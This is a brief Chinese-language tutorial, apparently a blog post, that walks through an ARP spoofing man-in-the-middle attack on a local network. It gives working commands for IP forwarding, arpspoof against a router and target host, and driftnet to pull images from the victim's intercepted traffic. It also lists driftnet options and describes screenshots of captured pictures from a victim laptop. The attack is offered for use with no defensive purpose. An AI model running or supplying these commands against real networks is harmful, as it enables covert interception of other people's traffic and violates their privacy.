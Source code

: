 ### 其实这个也是非常简单，只有三句命令就可以实现。没啥技术难度，不过只能在局域网内实现。

##### 1、更改转发模式

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

![image-20200523215235878](https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q4h2n18j30vv0u07wh.jpg)

##### 2、arp攻击

```
 arpspoof -i eth0 -t 192.168.1.1  192.168.1.100
 
  arpspoof -i eth0 -t 192.168.123.1  192.168.123.119
 
#arpspoof -i eth0 -t [路由器ip] [目标主机ip]
```

> `192.168.123.1`是我路由器地址，`192.168.123.116`是我笔记本的地址

![image-20200523213603947](https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pnalgspj30vq0u01ky.jpg)

##### 3、数据还原分析

```
# driftnet -i eth0
//eth0是网卡
```

![image-20200523214018000](https://tva1.sinaimg.cn/large/007S8ZIlly1gf2proex9tj30u00vy7wh.jpg)

###### 参数命令

> `-b` ：捕获到新的图片时发出嘟嘟声
>
> `-i interface` ：选择监听接口
>
> `-f file`：读取一个指定pcap数据包中的图片
>
> `-p` ：不让所监听的接口使用混杂模式
>
> `-a` ：后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
>
> `-m number` ：指定保存图片数的数目
>
> `-d directory` ：指定保存图片的路径
>
> `-x prefix`：指定保存图片的前缀名

### 结果：

![41590241281_.pic_hd](https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pzieux9j31400u0qv8.jpg)

> 左边电脑是被攻击者，右边窗口中的图片就是截取被攻击者网络数据包中抓取的图片

![image-20200523215050019](https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q2mw4k2j30u00v5qv5.jpg)

> 截取的所有照片都会在文件夹中显示